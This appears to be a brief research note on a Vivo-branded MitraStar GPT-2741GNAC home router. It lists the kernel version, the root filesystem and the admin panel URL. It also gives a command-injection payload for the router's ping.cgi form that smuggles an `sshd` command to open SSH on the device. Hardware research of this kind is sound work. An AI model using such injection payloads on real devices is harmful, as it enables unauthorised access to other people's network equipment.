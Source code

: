 # Mitrastart_vivo_GPT-2741GNAC-N1-SV

- Kernel: `Linux MitraStar 2.6.36 #1 SMP Mon Apr 18 23:24:52 CST 2022 mips GNU/Linux`

- ls /:

```
drwxrwxr-x   17 support  root           295 Apr 18 15:43 .
drwxrwxr-x   17 support  root           295 Apr 18 15:43 ..
drwxr-xr-x    1 support  root          2048 Aug  1  2016 app
drwxrwxr-x    2 support  root          1027 Apr 18 15:43 bin
drwxr-xr-x    1 support  root          2048 Aug  1  2016 bosa
drwxr-xr-x    1 support  root          2048 Aug  1  2016 bosabackup
drwxr-xr-x    1 support  root          2048 Aug  1  2016 data
drwxrwxr-x    5 support  root          1212 Apr 18 15:43 dev
lrwxrwxrwx    1 support  root             8 Apr 18 15:43 etc -> /tmp/etc
drwxrwxr-x    2 support  root             3 Apr 18 15:43 fwbuffer
drwxrwxr-x    7 support  root          5687 Apr 18 15:43 lib
lrwxrwxrwx    1 support  root            11 Apr 18 15:43 linuxrc -> bin/busybox
drwxrwxrwx    5 support  root           246 Apr 18 15:43 mini_httpdroot
dr-xr-xr-x  111 support  root             0 Jan  1  1970 proc
drwxrwxr-x    2 support  root           442 Apr 18 15:43 sbin
drwxrwxr-x    2 support  root             3 Apr 18 15:43 sys
drwxr-xr-x    8 support  root             0 Oct 10 14:57 tmp
drwxrwxr-x    4 support  root           172 Apr 18 15:43 userfs
drwxrwxr-x    8 support  root           112 Apr 18 15:43 usr
lrwxrwxrwx    1 support  root             8 Apr 18 15:43 var -> /tmp/var
--IPv4 Test Fin--
This area is read only.
```

- Default route panel: `http://192.168.15.1/padrao`.
- enable sshd: `http://192.168.15.1/cgi-bin/ping.cgi` ping: `$(sshd; echo '192.168.15.1')`.
- Root user: ? avaible, so not acessible!
